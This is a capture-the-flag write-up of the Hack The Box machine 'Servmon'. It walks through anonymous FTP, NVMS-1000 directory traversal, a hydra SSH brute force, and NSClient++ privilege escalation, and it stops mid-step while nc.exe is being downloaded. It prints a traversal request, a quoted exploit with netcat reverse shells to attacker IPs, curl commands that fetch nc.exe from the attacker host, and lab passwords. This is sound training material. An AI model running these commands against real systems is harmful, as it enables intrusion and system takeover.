




# HTB - Servmon

## Overview



This was an easy Windows machine....but don't get stuck chasing the rabbits!

## Useful Skills and Tools

#### Logging into FTP Anonymously

1. ftp &lt;remote\_ip&gt;
2. Name: anonymous

   331 Anonymous access allowed, send identity \(e-mail name\) as password.

3. Password: any@email.address

#### Windows files in static locations for LFI testing purposes

* C:\Windows\win.ini
* C:\Users\&lt;username&gt;\Desktop\desktop.ini
  * If you have already gathered a potential username

#### Using SSH to forward local ports to access secured remote assets

`ssh -L <local_port>:<remote_address>:<remote_port> <username>@<server_ip>`

#### Powershell history file location

`C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

## Enumeration

### Nmap scan

First off, I started my enumeration with an nmap scan of `10.10.10.184`. The options I regularly use are: `-p-`, which is a shortcut that tells nmap to scan all TCP ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN <name>` saves the output to file with a name of `<name>`.

```text
zweilos@kalimaa:~/htb/servmon$ nmap -p- -sC -sV -Pn -oN servmon.nmap 10.10.10.184
                           
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-19 22:24 EDT                                        
Nmap scan report for 10.10.10.184                                                                      
Host is up (0.047s latency).                                                                           
Not shown: 65270 closed ports, 248 filtered ports                                                      
PORT      STATE SERVICE       VERSION                                                                  
21/tcp    open  ftp           Microsoft ftpd                                                           
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                 
|_01-18-20  12:05PM       <DIR>          Users                                                         
| ftp-syst:                                                                                            
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5666/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|_    Sat:Saturday
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=6/20%Time=5EEE5E31%P=x86_64-pc-linux-gnu%r(NULL
SF:,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/ht
SF:ml\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n
SF:\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20tex
SF:t/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x
SF:20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20X
SF:HTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/D
SF:TD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.
SF:org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\
SF:x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x2
SF:0\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")
SF:%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/htm
SF:l\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\
SF:n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\
SF:x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xh
SF:tml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1
SF:999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x
SF:20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20
SF:\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(RT
SF:SPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\n
SF:Content-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n
SF:\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\
SF:.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-
SF:transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/x
SF:html\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x2
SF:0<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\
SF:x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.80%T=SSL%I=7%D=6/20%Time=5EEE5E39%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation
SF::\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0iday\0Sat:Saturday\0\0\0s\
SF:0d\0a\0y\0:\0T\0h\0u\0:\0T\0h\0u\0r\0s\0")%r(HTTPOptions,36,"HTTP/1\.1\
SF:x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(Fou
SF:rOhFourRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDoc
SF:ument\x20not\x20found")%r(RTSPRequest,36,"HTTP/1\.1\x20404\r\nContent-L
SF:ength:\x2018\r\n\r\nDocument\x20not\x20found")%r(SIPOptions,36,"HTTP/1\
SF:.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4m08s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T19:13:10
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60274.96 seconds
```

Lots of open ports on this machine.  There are a number of clues in this output that would tell you that this is a Windows machine such as ports `135 - Microsoft Windows RPC`, `139 - Netbios`, and `445 - Server Message Block (SMB)`.  The FTP client also reports `SYST: Windows_NT` and SSH is running on `OpenSSH for_Windows_7.7`.  With that, it's usually best to start with enumerating the low ports that are well known.  

### Anonymous FTP

If port `21 - FTP` is open, that is usually a good place to start as logging in as `Anonymous` can be an easy way to find useful information. To do this enter `anonymous` when it prompts you for a name, then give an email address when it prompts for a password.  This does not have to be a real address, just in the format `a@b.c`.

```text
zweilos@kalimaa:~/htb/servmon$ ftp 10.10.10.184

Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:zweilos): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd nadine
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
ftp> get Confidential.txt
local: Confidential.txt remote: Confidential.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
174 bytes received in 0.05 secs (3.6728 kB/s)
ftp> cd ..
250 CWD command successful.
ftp> cd Nathan
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:10PM                  186 Notes to do.txt
226 Transfer complete.
ftp> get "Notes to do.txt"
local: Notes to do.txt remote: Notes to do.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
186 bytes received in 0.04 secs (4.1591 kB/s)
ftp>
```

Through FTP I was able to find two different users, `Nadine` and `Nathan`.  Each user's folder had a text document in it with some interesting information. 

```text
zweilos@kalimaa:~/htb/servmon$ cat 'Notes to do.txt'
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

`Nathan`'s folder contained a to-do list that lets us know that there are two services `NVMS` and `NSClient` on this machine, the security of which has not been completely locked down.  It seems as if public access to `NVMS` should still be still available, and whatever "secret files" may still be in an accessible location.

```text
zweilos@kalimaa:~/htb/servmon$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The file `Confidential.txt` in `Nadine`'s folder gave me some more good news.  She left `Nathan` a file on his desktop that looks to contain passwords.  This may be one of the "secret files" that `Nathan` was planning to lock up in SharePoint that he hadn't gotten to yet. 

### HTTP - Port 80 🐇🐇

Since I still didn't have a way in, the next place to enumerate was HTTP on port 80.  Navigating to `http://10.10.10.181` redirected to `http://10.10.10.184/Pages/login.htm` which had a page title of `NVMS-1000`.  This looks like the page with public access that `Nathan`'s to-do list had mentioned.  



### NVMS-1000 Exploit Research

A quick exploit search using `searchsploit nvms 1000` found a directory traversal exploit for this web portal at [https://www.exploit-db.com/exploits/47774](https://www.exploit-db.com/exploits/47774), and also a Metasploit scanner to check for this vulnerability at [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tvt\_nvms\_traversal](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tvt_nvms_traversal).  

_Bypassing the login to this portal is possible, but I'm pretty sure it is a huge rabbit hole that sucked me in for quite awhile._

## Initial Foothold

Can use GET requests and directory traversal to access files on the system.  Blog from Rapid7 shows good way to test for LFI and directory traversal for Windows. since we know the location of the `Passwords.txt` file, use this to exfiltrate



I used Burp suite's repeater tool to craft my requests and test for this vulnerability on this machine.



The machine was indeed vulnerable, and I used the information from the message `Nadine` left for `Nathan` to form my directory traversal GET request.  The server returned a list of seven passwords for me try out.

```text
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063; lang_type=0x0804%24zh-cn
Upgrade-Insecure-Requests: 1
DNT: 1
```

```text
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

## Road to User

Now that I had some credentials, it was time to try to log into the machine with them.  I decided to use the tool`hydra` to do a brute force attack against SSH for both users `Nathan` and `Nadine`.

```text
zweilos@kalimaa:~/htb/servmon$ hydra -l Nadine -P passwords 10.10.10.184 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-20 21:06:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-20 21:07:01
```

Thank you `Nadine` for using one of the same passwords you recommended!

```text
zweilos@kalimaa:~/htb/servmon$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami /all

USER INFORMATION                                            
----------------                                            

User Name      SID                                          
============== =============================================
servmon\nadine S-1-5-21-3877449121-2587550681-992675040-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes

====================================== ================ ============ ==================================
================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by defaul
t, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by defaul
t, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled


nadine@SERVMON C:\Users\Nadine>
```

After determining the correct password I easily logged in and got a shell as `Nadine`.  

### user.txt

```text
nadine@SERVMON C:\Users\Nadine>cd Desktop

nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

21/06/2020  00:50    <DIR>          .
21/06/2020  00:50    <DIR>          ..
20/06/2020  23:33           566,851 PowerUp.ps1
20/06/2020  18:33                34 user.txt
20/06/2020  20:53            32,976 winPEAS.bat
               3 File(s)        599,861 bytes
               2 Dir(s)  27,815,362,560 bytes free

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
5ee172f5b05926cfc9eaf8c4eb8aad52
```

### Metagaming - Other user's artifacts

As you can see in this output, there were at least a few different people working on this machine around the same time as me, and that they had left their enumeration scripts behind. On my first couple Hack the Box attempts I found useful information in a public location and thought it was part of the box, only later to find out that I had been receiving spoilers due to other user's artifacts. _Please be courteous to other users in this shared environment and clean up after yourself!_  

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `Nadine`

I was able to find a PowerShell history file for `Nadine` at C:\Users\Nadine\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost\_history.txt, though there was nothing relevant to the challenge..._there were however, lots of attempts to do things \(some quite humorous!\) from other users though!  Unfortunately I accidentally deleted the contents while cleaning up my notes for publishing so you can't enjoy them too._

After browsing through the installed programs I came across something I didn't recognize: `NSClient++`.  

```text
nadine@SERVMON C:\Program Files\NSClient++>type changelog.txt
2018-01-18 Michael Medin
 * Fixed some Op5Client issues

 2018-01-15 Michael Medin
 * Added hidden to check_tasksched to allow checking of hidden tasks
 * Added tracing and fixed some issues to op5 client
 * Fixed #525 json spirit should be an optional dependency (though a lot of things break without it)

...snipped for brevity...
```

The changelog didn't really hold any information that seemed useful at first, though it did give me an idea of how long it had been since the program had received an update: 2018-01-18. 

```text
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini

# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

...snipped for brevity...

; CheckTaskSched - Check status of your scheduled jobs.
CheckTaskSched = enabled

; Scheduler - Use this to schedule check commands and jobs in conjunction with for instance passive mon
itoring through NSCA
Scheduler = enabled

; CheckExternalScripts - Module used to execute external scripts
CheckExternalScripts = enabled

; Script wrappings - A list of templates for defining script commands. Enter any command line here and 
they will be expanded by scripts placed under the wrapped scripts section. %SCRIPT% will be replaced by
 the actual script an %ARGS% will be replaced by any given arguments.
[/settings/external scripts/wrappings]

; Batch file - Command used for executing wrapped batch files
bat = scripts\\%SCRIPT% %ARGS%
```

I found a potential password in the `nsclient.ini` folder, though I wasn't sure what it might go to.  It didn't work for the Administrator account, unfortunately.  Near the bottom of this file were some obvious edits by other users, so I knew this had to be important.  I reset the box to avoid spoiling the rest of it for myself. 

### NSClient++ Exploit Research

A Google search of `nsclient++ changelog` led to [http://www.nsclient.org/download/0.5.2/](http://www.nsclient.org/download/0.5.2/), where I was able to correlate the dates in the `changelog.txt` with the versions of the program's releases.  It looked like the installed program was nightly build version 0.5.2.31 from 2018-01-18. 

Again, a quick `Searchsploit` check found an exploit that might work for this version of `NSClient++`.  [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802)

```text
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users 
have the ability to read the web administator's password in cleartext from the 
configuration file.  From here a user is able to login to the web server and 
make changes to the configuration file that is normally restricted.  

The user is able to enable the modules to check external scripts and schedule 
those scripts to run.  There doesn't seem to be restrictions on where the scripts 
are called from, so the user can create the script anywhere.  Since the NSClient++ 
Service runs as Local System, these scheduled scripts run as that user and the low 
privilege user can gain privilege escalation.  A reboot, as far as I can tell, is 
required to reload and read the changes to the web config.  

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local 
access to a system running NSClient++ with Web Server enabled using a low 
privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save 
configuration:
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system
	
Risk:
The vulnerability allows local attackers to escalate privileges and execute 
arbitrary code as Local System
```

Well this didn't look too awfully complicated.  I now had step-by-step instructions for privilege escalation all the way to `nt authority\system`.  

```text
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display 

Current password: ew2x6SsGTxjRwXOT
```

Running the command in the exploit to get the NSCP web client administrator password gave me the same password that I had seen in the `nsclient.ini` file.  

Looking back through my notes, I saw that there was a port I hadn't checked out yet from my early Nmap scan.  Port TCP 8443 showed a website with the information `http-title: NSClient++`.  Navigating to `http://10.10.10.184:8443` resulted in failure.  After doing a bit more looking around I found an entry in `nsclient.ini` that seemed to specify that the Web interface could only be accessed from the specified hosts, which only included 127.0.0.1 in this case.  _Later I noticed the port was also listed in nsclient.ini, oops._ 

#### Using SSH to create a redirect tunnel \(Local Port Forwarding\)

In order to access this page through the web browser without some sort of remote desktop capability I had to set up port forwarding from my local machine to the remote host.  Since the web portal would only accept traffic from it's own localhost on port 8443, we needed to set up some way to redirect traffic to and from my browser to appear to come from the remote machine.  Luckily this is pretty easy to do with SSH.



`ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184`

### The web portal on port 8443

https://127.0.0.1:8443/index.html\#/



The web portal seemed somewhat complicated to interact with, and the instructions given in the exploit weren't completely clear how to link to the `evil.bat` script and it's scheduler through the web portal.  After doing lots of reading through the documentation on `nsclient`, I discovered an easier sounding method of interacting with the service.

### Taking the API route

While reading through the API documentation at [https://docs.nsclient.org/api/scripts/](https://docs.nsclient.org/api/scripts/) I thought it sounded like a much easier to deal with route than going through the web portal.  With just two simple commands I could upload my script and execute a query against that script to get it to run. The documentation even gave specifics on how to upload the contents of the script by passing it as a string in the command, rather than actually creating and sending a file.

```text
Example¶
Given a file called check_new.bat which contains the following:


@echo OK: %1
@exit 0
We can use the following curl call to upload that as check_new.


curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary @check_new.bat
Added check_new as scripts\check_new.bat
```

For my payload script I still used the one recommended by the exploit author, even though I was sending it to the server by a different method.  It was a very simple netcat reverse shell..

```text
#@echo off
c:\Temp\nc.exe 10.10.14.15 4443 -e cmd.exe
```

To send the payload to the server I used `curl` as specified by the documentation and sent the contents of my payload script as `--data-binary "<string>"`.   It prompted me to enter the admin password we had retrieved from the nscp client.  

```text
nadine@SERVMON C:\Temp>curl -s -k -u admin -X PUT \
 https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat \
 --data-binary "C:\Temp\nc.exe 10.10.15.20 12345 -e cmd.exe" 

 Enter host password for user 'admin': 
 Added evil as scripts\evil.bat
```

After sending the script it let me know that it had added the script under the name `evil`.  This is the name to use to run a query against it in order to run it.

```text
nadine@SERVMON C:\Users\Nadine>curl -s -k -u admin \
 https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
```

At first, I tried executing the script but I didn't receive a reverse shell.  I realized after doing a bit of troubleshooting that I hadn't actually uploaded `nc.exe` to the remote host. My command to transfer the file had not completed successfully, but I had missed the error message it gave in my rush to finish since it was well past my bedtime. _Let this be a lesson to always take your time and pay attention to details, no matter how tired or in a hurry you may be :\)_

```text
nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.

nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
